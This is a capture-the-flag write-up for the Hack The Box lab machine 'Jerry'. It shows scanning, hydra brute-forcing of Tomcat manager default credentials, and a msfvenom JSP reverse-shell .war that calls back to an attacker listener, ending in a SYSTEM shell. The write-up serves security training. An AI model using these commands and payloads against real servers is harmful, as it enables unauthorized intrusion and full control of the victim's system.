




hackthebox Jerry
Released: 30th June 2018 / Pwned: September 8th 2019 - [+] Solved whilst Retired

Jerry is a simple box to exploit. You log in to Apache Tomcat's management panel using default credentials and upload a .war reverse shell, which drops you right into a SYSTEM shell on the box.
1) Nmap
Initial scan:
nmap -sV -sC -O -oN nmap/initial.txt 10.10.10.95
-sV service enumeration
-sC default scripts
-O OS detection
-oN default output
Results:
root@gotham:~/ctf/jerry# nmap -sV -sC -O -oN nmap/initial.txt 10.10.10.95
...
PORT STATE SERVICE VERSION
8080/tcp open http Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%)...
No exact OS matches for host (test conditions non-ideal).
Ports
• 8080/tcp - There's an Apache Tomcat server running.
2) Investigate 8080/tcp
http://10.10.10.95:8080 is an Apache Tomcat default installation page.

2a) Gobuster
gobuster will reveal an interesting URL - /manager (if you knew about Tomcat/how it works you wouldn't need to bruteforce for directories)
root@gotham:~/ctf/jerry/8080# gobuster -e -u http://10.10.10.95:8080 -w /usr/share/seclists/Discovery/Web-Content/big.txt -o gb-root-big.txt
...
http://10.10.10.95:8080/manager (Status: 302)
/manager/html is the Apache Tomcat admin panel.
Credentials are required, but default username/passwords are worth trying.
3) Brute force /manager/html
You can bruteforce http://10.10.10.95:8080/manager/html using metasploit's tomcat_mgr_login module or hydra.
I used hydra (with metasploit's wordlists)
root@gotham:~/ctf/jerry# hydra -L /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -P /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt -s 8080 10.10.10.95 http-get /manager/html
Hydra v8.9.1 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (https://github.com/vanhauser-thc/thc-hydra)
[DATA] max 16 tasks per 1 server, overall 16 tasks, 42 login tries (l:6/p:0), ~7 tries per task
[DATA] attacking http-get://10.10.10.95:8080/manager/html
[8080][http-get] host: 10.10.10.95 login: admin password: admin
[8080][http-get] host: 10.10.10.95 login: tomcat password: s3cret
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished
admin/admin doesn't work but tomcat/s3cret does.
Visit http://10.10.10.95:8080/manager/html/ and log in.
Gain Access/Priv-Esc
4) Upload .war Reverse Shell
We now have access to the Apache Tomcat admin panel.
From here we can upload a .war reverse shell and get a shell on the system.
Generate .war jsp reverse shell using msfvenom.
root@gotham:~/ctf/jerry# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.25 LPORT=9001 -f war -o lulz.war
Payload size: 1097 bytes
Final size of war file: 1097 bytes
Saved as: lulz.war
Upload your .war reverse shell.

You should see your .war file under Applications (mine is lulz)

Start a listener on your attacking machine to receive the shell
root@gotham:~/ctf/jerry/8080# nc -lvnp 9001
listening on [any] 9001 ...
And run your uploaded .war by visiting to link to you reverse shell under Applications.
You should get dropped straight into a SYSTEM shell!
...
listening on [any] 9001 ...
connect to [10.10.14.25] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
You can grab user.txt and root.txt from C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt
C:\apache-tomcat-7.0.88>type "C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt"
type "C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt"
user.txt
7004d...
root.txt
04a8b...